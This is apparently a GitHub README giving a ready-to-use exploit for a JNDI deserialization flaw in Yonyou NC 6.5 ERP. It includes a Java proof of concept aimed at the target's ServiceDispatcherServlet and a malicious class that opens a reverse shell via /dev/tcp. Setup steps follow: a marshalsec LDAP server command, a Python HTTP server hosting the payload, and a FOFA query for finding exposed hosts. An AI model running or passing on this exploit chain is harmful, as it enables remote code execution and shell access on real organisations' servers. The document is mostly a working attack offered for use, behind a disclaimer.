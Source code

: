 # Bigger than Bigger

大文件存储；供后来者学习探讨。

# ATTENTION PLZ

- 1.由于传播、利用此库/文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本文作者不为此承担任何责任。

- Any direct or indirect consequences and losses caused by the dissemination and use of the information provided by this library/text are the responsibility of the user himself, and the author of this article does not bear any responsibility for this.

- 2.转载请申明出处：*[Bigger than Bigger](https://github.com/Bin4xin/bigger-than-bigger)*

- Please state the source for reprinting : *[Bigger than Bigger](https://github.com/Bin4xin/bigger-than-bigger)*

## 零：用友nc6.5反序列化依赖jar包

- 部分依赖jar包在安装完nc6.5系统后，一般在`C://yonyou//home//lib//`目录下，前提需要有nc6.5的安装包；或者：
    - *[点击更多以了解yonyou-nc6.5-lib](https://github.com/Bin4xin/bigger-than-bigger/tree/master/yonyou-nc6.5-lib)*
        - yonyou NC v6.5 ESA 
        - fofa：title= "YONYOU NC"
        - 本机运行环境
        ```
        java version "1.8.0_181"
        Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
        Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)

        javac 1.8.0_181
        ```

### 0x01：攻击java代码

```java
import nc.bs.framework.common.NCLocator;

import java.util.Properties;


public class poc {

    public static void attack(String url, String jndipath) {
        Properties env = new Properties();
        if (!url.startsWith("http")) {
            url = "http://" + url;
        }
        env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
        NCLocator locator = NCLocator.getInstance(env);
        locator.lookup(jndipath);
    }

    public static void main(String[] args) {
        attack("http://192.168.1.1:81", "ldap://192.168.1.2:1099/remote");
    }
}
```
运行起来主要报`classNotFound`，必需第三方jar包如下：

- ncdepend.jar
- log4j-1.2.15.jar
- log.jar

### 0x02：远程利用java恶意代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.Serializable;
import java.util.Hashtable;

public class remote implements ObjectFactory, Serializable {

    public remote() {
        try{
            java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

### 0x03：使用方法

- jetbrains IDEA ：`file -> New -> Project -> Java`
	- *[点击更多以了解：IDEA与JAVA](https://blog.csdn.net/oschina_41790905/article/details/79475187)*
	- `src目录 -> New -> Java Class -> poc.java`即可；
	- `Project Structure -> Librabries -> + `添加lib文件夹即可；  
	
- 恶意LDAP：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.2:8000/#remote" 1099`
    - *[点击更多以了解marshalsec](https://github.com/mbechler/marshalsec)*
- HTTP SERVER(remote.class)：`python3 -m http.server`

- 填入主方法下`attck url & jndipath` -> `run poc.main()`即可。

- enjoy.

### 0x04：参考链接

- [用友NC反序列化 简单分析](https://blog.sari3l.com/posts/608d18f0/#jwdp)
- [用友nc6.5详细安装过程](https://blog.csdn.net/weixin_38766356/article/details/103983787)

